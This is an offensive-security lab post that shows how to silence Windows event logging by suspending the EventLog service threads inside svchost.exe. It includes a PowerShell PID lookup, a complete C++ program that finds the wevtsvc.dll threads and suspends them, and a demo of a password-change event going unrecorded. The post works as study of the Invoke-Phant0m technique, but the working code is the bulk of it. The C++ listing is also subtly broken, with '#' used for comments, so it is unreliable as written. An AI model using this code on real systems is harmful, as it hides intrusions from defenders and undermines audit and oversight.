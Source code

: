 ```yaml
---
layout: post
title: "2024-06-18-disabling windows event logs by suspending eventlog service threads"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /disabling-windows-event-logs-by-suspending-eventlog-service-threads/
---
```


# Disabling Windows Event Logs by Suspending EventLog Service Threads

This lab was inspired by an old post [Phant0m: Killing Windows Event Log](https://artofpwn.com/phant0m-killing-windows-event-log.html) by [@hlldz](https://twitter.com/hlldz) where he introduced a powershell tool [Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m), which disables Windows EventLog service by killing its threads hosted by the svchost.exe.

The purpose of this quick lab is to understand some of the inner workings of Invoke-Phant0m. In particular, I wanted to play around with Windows APIs related to retrieving a process ID that hosts a given service, thread enumeration, mapping threads to a particular service (Windows Eventlog in this case) hosted in the svchost.exe and so on. This would give me a better understanding of how I can target specific threads when I need to, I thought.

```
Although this lab was inspired by @hlldz' post, you will notice that we implemented the same technique in a slightly different way by levarging different Windows APIs.
```

## Overview

Windows event logs are handled by `EventLog` service that is hosted by svchost.exe.

If we list svchost processes, we see a number of those:

![](<../../.gitbook/assets/image (618).png>)

From the above screenshot, it's not clear which process actually hosts the `EventLog` service, but if we keep inspecting `svchost.exe` processes one by one in Process Hacker, we will eventually find the process hosting the `EventLog` service, which in my case it is `svchost.exe` with pid 2196:

![](<../../.gitbook/assets/image (620).png>)

Note that we can find out the PID of the process that is hosting `EventLog`:

```csharp
Get-WmiObject -Class win32_service -Filter "name = 'eventlog'" | select -exp ProcessId
```

![](<../../.gitbook/assets/image (621).png>)

If we look into svchost.exe threads for `EventLog`, we see there are a couple of threads of interest as highlighted in blue:

![](<../../.gitbook/assets/image (622).png>)

Below shows that indeed, suspending the threas is enough to disable the EventLog service from registering any new events:

![](<../../.gitbook/assets/suspended-threads-no-events (1).gif>)

Based on the above, the main goal of this lab is to hack some code to find these threads and simply suspend them and disable windows event logging this way.

```
Resuming threads will write out the events to the events log as if the threads had not been suspended in the first place.
```

## Code

Below is the code for the technique that at a high level works like this:

1. Open a handle to Service Control Manager with `OpenSCManagerA`
2. Open a handle to EventLog service with `OpenServiceA`
3. Retrieve svchost.exe (hosting EventLog) process ID with `QueryServiceStatusEx`
4. Open a handle to the svchost.exe process (from step 3)
5. Get a list of loaded modules loaded by svchost.exe `EnumProcessModules`
6. Loop through the list of `svchost` loaded modules, retrieved in step 5, find their names with `GetModuleBaseName` and find the base address of the module `wevtsvc.dll` - this is the module containing `EventLog` service inner-workings
7. Get `wevtsvc.dll` module info with `GetModuleInformation`. It will return a structure with module's start address and its image size - we will need these details later, when determiing if `EventLog` service thread's fall into wevtsvc.dll module's memory space
8. Enumerate all the threads inside svchost.exe with `Thread32First` and `Thread32Next`
9. For each thread from step 8, retrieve the thread's start address with `NtQueryInformationThread`
10. For each thread from step 8, check if the thread's start address belongs to the `wevtsvc.dll` memory space inside svchost.exe
11. If thread's start address is inside the `wevtsvc.dll` memory space, this is our victim thread and we suspend it with `SuspendThread`
12. `EventLog` service is now disabled

```cpp
#include <iostream>
#include <Windows.h>
#include <Psapi.h>
#include <TlHelp32.h>
#include <dbghelp.h>
#include <winternl.h>

#pragma comment(lib, "DbgHelp")

using myNtQueryInformationThread = NTSTATUS(NTAPI*)(
	IN HANDLE          ThreadHandle,
	IN THREADINFOCLASS ThreadInformationClass,
	OUT PVOID          ThreadInformation,
	IN ULONG           ThreadInformationLength,
	OUT PULONG         ReturnLength
	);

int main()
{
	HANDLE serviceProcessHandle;
	HANDLE snapshotHandle;
	HANDLE threadHandle;

	HMODULE modules[256] = {};
	SIZE_T modulesSize = sizeof(modules);
	DWORD modulesSizeNeeded = 0;
	DWORD moduleNameSize = 0;
	SIZE_T modulesCount = 0;
	WCHAR remoteModuleName[128] = {};
	HMODULE serviceModule = NULL;
	MODULEINFO serviceModuleInfo = {};
	DWORD_PTR threadStartAddress = 0;
	DWORD bytesNeeded = 0;

	myNtQueryInformationThread NtQueryInformationThread = (myNtQueryInformationThread)(GetProcAddress(GetModuleHandleA("ntdll"), "NtQueryInformationThread"));

	THREADENTRY32 threadEntry;
	threadEntry.dwSize = sizeof(THREADENTRY32);

	SC_HANDLE sc = OpenSCManagerA(".", NULL, MAXIMUM_ALLOWED);
	SC_HANDLE service = OpenServiceA(sc, "EventLog", MAXIMUM_ALLOWED);

	SERVICE_STATUS_PROCESS serviceStatusProcess = {};

	# Get PID of svchost.exe that hosts EventLog service
	QueryServiceStatusEx(service, SC_STATUS_PROCESS_INFO, (LPBYTE)&serviceStatusProcess, sizeof(serviceStatusProcess), &bytesNeeded);
	DWORD servicePID = serviceStatusProcess.dwProcessId;

	# Open handle to the svchost.exe
	serviceProcessHandle = OpenProcess(MAXIMUM_ALLOWED, FALSE, servicePID);
	snapshotHandle = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);

	# Get a list of modules loaded by svchost.exe
	EnumProcessModules(serviceProcessHandle, modules, modulesSize, &modulesSizeNeeded);
	modulesCount = modulesSizeNeeded / sizeof(HMODULE);
	for (size_t i = 0; i < modulesCount; i++)
	{
		serviceModule = modules[i];

		# Get loaded module's name
		GetModuleBaseName(serviceProcessHandle, serviceModule, remoteModuleName, sizeof(remoteModuleName));

		if (wcscmp(remoteModuleName, L"wevtsvc.dll") == 0)
		{
			printf("Windows EventLog module %S at %p\n\n", remoteModuleName, serviceModule);
			GetModuleInformation(serviceProcessHandle, serviceModule, &serviceModuleInfo, sizeof(MODULEINFO));
		}
	}

	# Enumerate threads
	Thread32First(snapshotHandle, &threadEntry);
	while (Thread32Next(snapshotHandle, &threadEntry))
	{
		if (threadEntry.th32OwnerProcessID == servicePID)
		{
			threadHandle = OpenThread(MAXIMUM_ALLOWED, FALSE, threadEntry.th32ThreadID);
			NtQueryInformationThread(threadHandle, (THREADINFOCLASS)0x9, &threadStartAddress, sizeof(DWORD_PTR), NULL);
			
			# Check if thread's start address is inside wevtsvc.dll memory range
			if (threadStartAddress >= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll && threadStartAddress <= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll + serviceModuleInfo.SizeOfImage)
			{
				printf("Suspending EventLog thread %d with start address %p\n", threadEntry.th32ThreadID, threadStartAddress);

				# Suspend EventLog service thread
				SuspendThread(threadHandle);
				Sleep(2000);
			}
		}
	}

	return 0;
}
```

## Demo

Below GIF illustrates:

* `net user ola ola` is executed and user's ola password is changed and an event `4724` logged at 6:55:30 PM
* 4 EventLog threads are suspended in svchost.exe (PID 2196)
* `net user ola ola` is executed again at 6:55:38 PM, but no new event `4724` is captured

![](<../../.gitbook/assets/demo-suspending-eventlog-threads (1).gif>)

## References

{% embed url="https://artofpwn.com/phant0m-killing-windows-event-log.html" %}
@spotheplanet
